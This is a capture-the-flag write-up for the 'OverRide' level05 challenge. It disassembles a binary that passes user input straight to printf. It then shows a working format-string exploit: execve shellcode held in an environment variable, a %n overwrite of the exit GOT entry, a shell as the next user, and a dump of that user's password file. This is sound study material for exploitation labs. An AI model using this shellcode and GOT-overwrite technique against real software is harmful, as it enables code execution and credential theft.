 # level05

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048444 <+0>:      push   ebp
   0x08048445 <+1>:      mov    ebp,esp
   0x08048447 <+3>:      push   edi
   0x08048448 <+4>:      push   ebx
   0x08048449 <+5>:      and    esp,0xfffffff0
   0x0804844c <+8>:      sub    esp,0x90                            ; 144 bytes of stack space
   0x08048452 <+14>:     mov    DWORD PTR [esp+0x8c],0x0
   0x0804845d <+25>:     mov    eax,ds:0x80497f0                    ; stdin
   0x08048462 <+30>:     mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:     mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:     lea    eax,[esp+0x28]
   0x08048472 <+46>:     mov    DWORD PTR [esp],eax
   0x08048475 <+49>:     call   0x8048350 <fgets@plt>               ; fgets(buf, 100, stdin)
   0x0804847a <+54>:     mov    DWORD PTR [esp+0x8c],0x0
   0x08048485 <+65>:     jmp    0x80484d3 <main+143>
   0x08048487 <+67>:     lea    eax,[esp+0x28]
   0x0804848b <+71>:     add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:     movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:     cmp    al,0x40
   0x08048497 <+83>:     jle    0x80484cb <main+135>
   0x08048499 <+85>:     lea    eax,[esp+0x28]
   0x0804849d <+89>:     add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:     movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:     cmp    al,0x5a
   0x080484a9 <+101>:    jg     0x80484cb <main+135>
   0x080484ab <+103>:    lea    eax,[esp+0x28]
   0x080484af <+107>:    add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:    movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:    mov    edx,eax
   0x080484bb <+119>:    xor    edx,0x20
   0x080484be <+122>:    lea    eax,[esp+0x28]
   0x080484c2 <+126>:    add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:    mov    BYTE PTR [eax],dl
   0x080484cb <+135>:    add    DWORD PTR [esp+0x8c],0x1
   0x080484d3 <+143>:    mov    ebx,DWORD PTR [esp+0x8c]
   0x080484da <+150>:    lea    eax,[esp+0x28]
   0x080484de <+154>:    mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080484e6 <+162>:    mov    edx,eax
   0x080484e8 <+164>:    mov    eax,0x0
   0x080484ed <+169>:    mov    ecx,DWORD PTR [esp+0x1c]
   0x080484f1 <+173>:    mov    edi,edx
   0x080484f3 <+175>:    repnz scas al,BYTE PTR es:[edi]            ; strlen(buf)
   0x080484f5 <+177>:    mov    eax,ecx
   0x080484f7 <+179>:    not    eax
   0x080484f9 <+181>:    sub    eax,0x1
   0x080484fc <+184>:    cmp    ebx,eax
   0x080484fe <+186>:    jb     0x8048487 <main+67>
   0x08048500 <+188>:    lea    eax,[esp+0x28]
   0x08048504 <+192>:    mov    DWORD PTR [esp],eax
   0x08048507 <+195>:    call   0x8048340 <printf@plt>              ; printf(buf)
   0x0804850c <+200>:    mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:    call   0x8048370 <exit@plt>
End of assembler dump.
```

The program is quite simple. It takes an input thansk to `fgets` and transform all capitals letters (from `'A'` to
`'Z'`) into lowercase letters. Then the buffer is dumped directly into `printf`,  which is _really_, _really_, _really_
bad.

## Exploit

Let's start to find the format string offset:

```console
level05@OverRide:~$ (python -c 'print "aaaa" + " %08x" * 20') | ./level05
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6cf ffffd6ce 00000000 ffffffff ffffd754 f7fdb000 61616161 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830level05@OverRide:~$
```

The offset is 10 (because `aaaa` corresponds to `61616161` in hexadecimal). Then, we are going to use format string
exploit to re-print the address of the last call of `exit` (`0x08048513 <+207>:    call   0x8048370 <exit@plt>`) into
the GOT.

First, let's put our shellcode into environment variables:

```console
level05@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
level05@OverRide:~$ env | grep SHELLCODE
SHELLCODE=��������������������������������������������������j
                                                             X�Rh//shh/bin��1�̀
```

Thanks to GDB, we find that `SHELLCODE` address is: `0xffffd884` (it may change).

We have the code we wan't to call. Now let's get the `exit` GOT address we are going to re-print:

```console
level05@OverRide:~$ objdump -R level05

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

The `exit` address in the GOT is `0x080497e0`. Finally, we are going to print `0xd884` (decimal `55428`) at `0x080497e0`
and `0xffff` (decimal `65535`) at `0x080497e2`:

```console
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55450x" + "%10$n" + "%10077x" + "%11$n"'; cat) | ./level05
[...]
                                   f7fcfac0
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
